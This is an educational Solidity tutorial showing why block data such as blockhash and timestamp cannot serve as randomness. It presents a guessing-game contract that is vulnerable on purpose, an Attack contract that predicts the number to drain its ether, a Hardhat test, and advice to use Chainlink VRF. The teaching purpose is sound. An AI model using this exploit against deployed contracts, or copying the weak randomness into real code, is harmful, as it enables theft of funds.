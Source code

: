# Source of Randomness

Randomness is a hard problem. Computers run code that is written by programmers, and follows a given sequence of steps. As such, it is extremely hard to design an algorithm that will give you a 'random' number, since that random number must be coming from an algorithm that follows a certain sequence of steps. Now, of course, some functions are better than others.

In this case, we will specifically look at why you cannot trust on-chain data as sources of randomness (and also why Chainlink VRF's, that we used in Junior, were created).

## Requirements

- We will build a game where there is a pack of cards.
- Each card has a number associated with it which ranges from `0 to 2²⁵⁶–1`
- Player will guess a number that is going to be picked up.
- The dealer will then at random pick up a card from the pack
- If someone correctly guesses the number, they win `0.1 ETH`
- We will hack this game today :)

## Build

To build the smart contract we will be using [Hardhat](https://hardhat.org/).
Hardhat is an Ethereum development environment and framework designed for full stack development in Solidity. In simple words you can write your smart contract, deploy them, run tests, and debug your code.

- In you folder, you will set up a Hardhat project

  ```bash
  npm init --yes
  npm install --save-dev hardhat
  ```
  
- If you are on Windows, please do this extra step and install these libraries as well :)

  ```bash
  npm install --save-dev @nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers
  ```

- In the same directory where you installed Hardhat run:

  ```bash
  npx hardhat
  ```

  - Select `Create a basic sample project`
  - Press enter for the already specified `Hardhat Project root`
  - Press enter for the question on if you want to add a `.gitignore`
  - Press enter for `Do you want to install this sample project's dependencies with npm (@nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers)?`

Now you have a Hardhat project ready to go!

- Lets first understand what `abi.encodedPacked` does. 
  
  We have previously used `abi.encode` in the Sophomore NFT tutorial. It is a way to concatenate multiple data types into a single bytes array, which can then be converted to a string. This is used to compute the `tokenURI` of NFT collections often. `encodePacked` takes this a step further, and concatenates multiple values into a single bytes array, but also gets rid of any padding and extra values. What does this mean? Let's take `uint256` as an example. `uint256` has 256 bits in it's number. But, if the value stored is just `1`, using `abi.encode` will create a string that has 255 `0`'s and only 1 `1`. Using `abi.encodePacked` will get rid of all the extra 0's, and just concatenate the value `1`.

For more information on `abi.encodePacked`, go ahead and read this [article](https://medium.com/@libertylocked/what-are-abi-encoding-functions-in-solidity-0-4-24-c1a90b5ddce8)

- Create a file named as `Game.sol` inside your `contracts` folder and add the following lines of code.

  ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.4;

    contract Game {
    constructor() payable {}

        /**
            Randomly picks a number out of `0 to 2²⁵⁶–1`.
        */
        function pickACard() private view returns(uint) {
            // `abi.encodePacked` takes in the two params - `blockhash` and `block.timestamp`
            // and returns a byte array which further gets passed into keccak256 which returns `bytes32`
            // which is further converted to a `uint`.
            // keccak256 is a hashing function which takes in a bytes array and converts it into a bytes32
            uint pickedCard = uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)));
            return pickedCard;
        }

        /**
            It begins the game by first choosing a ramdom number by calling `pickACard`
            It then verifies if the random number selected is equal to `_guess` passed by the player
            If the player guessed the correct number, it sends the player `0.1 ether`
        */
        function guess(uint _guess) public {
            uint _pickedCard = pickACard();
            if(_guess == _pickedCard){
                (bool sent,) = msg.sender.call{value: 0.1 ether}("");
                require(sent, "Failed to send ether");
            }
        }

        /**
            Returns the balance of ether in the contract
        */
        function getBalance() view public returns(uint) {
            return address(this).balance;
        }

    }
  ```

- Now create a file called as `Attack.sol` inside your `contracts` folder and add the following lines of code.

  ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.4;

    import "./Game.sol";

    contract Attack {
        Game game;
        /**
            Creates an instance of Game contract with the help of `gameAddress`
        */
        constructor(address gameAddress) {
            game = Game(gameAddress);
        }

        /**
            attacks the `Game` contract by guessing the exact number because `blockhash` and `block.timestamp`
            is accessible publically
        */
        function attack() public {
            // `abi.encodePacked` takes in the two params - `blockhash` and `block.timestamp`
            // and returns a byte array which further gets passed into keccak256 which returns `bytes32`
            // which is further converted to a `uint`.
            // keccak256 is a hashing function which takes in a bytes array and converts it into a bytes32
            uint _guess = uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)));
            game.guess(_guess);
        }

        // Gets called when the contract recieves ether
        receive() external payable{}
    }
  ```

- How the attack takes place is as follows:

  - The hacker calls the `attack` function from the `Attack.sol`
  - `attack` further guesses the number using the same method as `Game.sol` which is
    `uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)))`
  - Attacker is able to guess the same number because blockhash and block.timestamp is public information and everybody has access to it
  - The attacker then calls the `guess` function from `Game.sol`
  - `guess` first calls the `pickACard` function which generates the same number using `uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)))` because `pickACard` and `attack` were both called in the same block.
  - `guess` compares the numbers and they turn out to be the same.
  - `guess` then sends the `Attack.sol` `0.1 ether` and the game ends
  - Attacker is successfully able to guess the random number

- Now lets write some tests to verify if it works exactly as we hoped.

- Create a new file named `attack.js` inside the `test` folder and add the following lines of code

  ```javascript
  const { ethers, waffle } = require("hardhat");
  const { expect } = require("chai");
  const { BigNumber, utils } = require("ethers");

  describe("Attack", function () {
    it("Should be able to guess the exact number", async function () {
      // Deploy the Game contract
      const Game = await ethers.getContractFactory("Game");
      const _game = await Game.deploy({ value: utils.parseEther("0.1") });
      await _game.deployed();

      console.log("Game contract address", _game.address);

      // Deploy the attack contract
      const Attack = await ethers.getContractFactory("Attack");
      const _attack = await Attack.deploy(_game.address);

      console.log("Attack contract address", _attack.address);

      // Attack the Game contract
      const tx = await _attack.attack();
      await tx.wait();

      const balanceGame = await _game.getBalance();
      // Balance of the Game contract should be 0
      expect(balanceGame).to.equal(BigNumber.from("0"));
    });
  });
  ```

- Now open up a terminal pointing to `Source-of-Randomness` folder and execute this

  ```bash
  npx hardhat compile
  ```

- If all your tests passed, you have sucessfully completed the hack :)

## Preventions

- Don't use `blockhash`, `block.timestamp`, or really any sort of on-chain data as sources of randomness
- You can use [Chainlink VRF's](https://docs.chain.link/docs/chainlink-vrf/) for true source of randomness
